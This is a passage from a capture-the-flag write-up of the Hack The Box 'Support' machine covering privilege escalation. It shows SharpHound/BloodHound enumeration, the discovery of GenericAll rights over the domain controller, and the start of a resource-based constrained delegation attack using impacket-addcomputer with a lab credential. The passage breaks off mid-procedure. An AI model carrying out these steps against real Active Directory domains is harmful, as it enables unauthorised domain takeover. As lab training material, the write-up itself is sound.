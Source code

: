 

# Privilege Escalation

Lets upload sharphound to the target machine. You can download it from [here](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe)

commnad:```upload SharpHound.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0855eb89-253b-40c7-a5ff-d80d5fafd5f4)

We can run it using the command ```.\SharpHound.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cd80fee8-ed5e-4630-a8c4-0f5b23654682)

What sharphound did was help us collect data from the machine

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/19d24d59-9097-4e11-be10-73e15a02b638)

Lets download this using the command ```download 20231029102859_BloodHound.zip```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ee126085-f6ed-439b-bc58-b50e1f070d61)

nice nice, we can use bloodhound to analyze this file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/091ca68c-8391-4525-a5bb-3c788426b01e)

Next thing is to drag and drop the zip file into bloodhound

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/40c6118f-aad0-4392-93f2-4806fce76aca)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/be578cfd-f496-4b6e-92ba-55bad7003f7e)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1693f889-5776-4108-ad0b-7b8abfda839d)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c2cc0e88-fdc4-48b3-bc09-da4ba4d66d6b)

Since we are the support user, we are inside the ```SHARED SUPPORT ACCOUNT@support.htb```. We can confirm this by running the command ```Get-ADPrincipalGroupMembership support``` on powershell

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a12fa540-df7d-4702-bf66-4fa7c95d3ebf)

Now from bloodhound we know that we got ```GenericAll``` permission to the ```dc.support.htb``` Domain Controller which means we have full rights to the ```dc.support.htb``` object.

You can check out this [blog](https://hakin9.org/rbcd-attack-kerberos-resource-based-constrained-delegation-attack-from-outside-using-impacket/) to check out the steps for a remote resource based constrained delegation attack

First, we add a new machine to the domain using impacket addcomputer script

command:```impacket-addcomputer -computer-name 'blackanon$' -computer-pass password -dc-ip 10.129.158.5 support/support:Ironside47pleasure40Watchful```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/support]
└─$ impacket-addcomputer -computer-name 'blackanon$' -computer-pass password -dc-ip 10.129.158.5 support/support:Ironside47pleasure40Watchful
Impacket v0.11.0 - Copyright 2023 Fortra

[!] No DC host set and 'support' doesn't look like a FQDN. DNS resolution of short names will probably fail.
[*] Successfully added machine account blackanon$ with password password.
```
nice nice, the next thing we'll do is use the ```rbcd.py``` [script](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py) to add the related security description of the newly created computer to the msDS-AllowedToActOnBehalfOfOtherIdentity property of the target computer, DC.

